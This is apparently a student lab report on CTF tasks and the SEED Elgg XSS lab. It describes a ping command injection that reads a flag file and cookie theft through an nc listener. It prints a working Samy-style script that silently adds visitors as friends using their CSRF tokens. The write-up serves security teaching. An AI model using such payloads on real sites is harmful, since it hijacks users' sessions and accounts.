


# Tasks for week \#9 and \#10

##CTF

- **Task 1**:
    - The purpose of this task is to catch the flag. Because the forms has a XSS vulnerability, we can inject JavaScript code that when the admin checks the page, clicks on the button and the flag appears.


- **Task 2**:
    - The functionalities that the web application provides are log in, ping a host and watch a gif on speed test. After somes tests we verified that the ping functionality uses the linux ping command. This way we can inject a shell comand to get the flag (cat /flags/flag.txt)


## Cross-Site Scripting (XSS) Attack Lab

- **Task 1**:
    - The purpose of this task is to embed a JavaScript program in an Elgg profile. In order to do this, we logged in as Bobby and injected the following Javascript program in the brief description field:  


    - Then we logged in as Alice, visited Bobby's profile and the JavaScript code was executed.


- **Task 2**:
    - The purpose of this task is similar to the previous one but the JavaScript code displays the user's cookie.


    - Then we logged in as Alice, visited Bobby's profile and the JavaScript code was executed, showing Alice's cookie.


- **Task 3**:
    - The purpose of this task is similar to the previous one but this time we want the cookie to be sent to the attacker. To achieve this, we injected the following JavaScript code that sents an HTTP GET request through an image's source field.


    - The attacker uses the nc command to listen on port 5555 and receive the HTTP request with the Alice's cookie.


- **Task 4**:
    - The purpose of this task is to perform an similar attack to what Samy did to MySpace in 2005. Using Firefox's HTTP inspection tool, we get the following HTTP request when Bobby adds Samy as a friend:


    - Using the same technique used in the previous tasks, we can inject the following JavaScript program in samy's profile:

    ``` 
        <script type="text/javascript">
            window.onload = function () {
            var Ajax=null;
            var ts="&elgg_ts="+elgg.security.token.elgg_ts;
            var token="&elgg_token="+elgg.security.token.elgg_token;
            //Construct the HTTP request to add Samy as a friend.
            var sendurl="http://www.seed-server.com/action/friends/add?friend=59" + ts + token;
            //Create and send Ajax request to add friend
            Ajax=new XMLHttpRequest();
            Ajax.open("GET", sendurl, true);
            Ajax.send();
            }
        </script> 
    ```

    - This code creates an HTTP request that adds the current user to Samy's friend list.

    Example:
    - Alice's friend list before visiting Samy's profile:


    - Alice visits Samy's profile and the HTTP request is executed.


    - Alice's friend list after visiting Samy's profile:

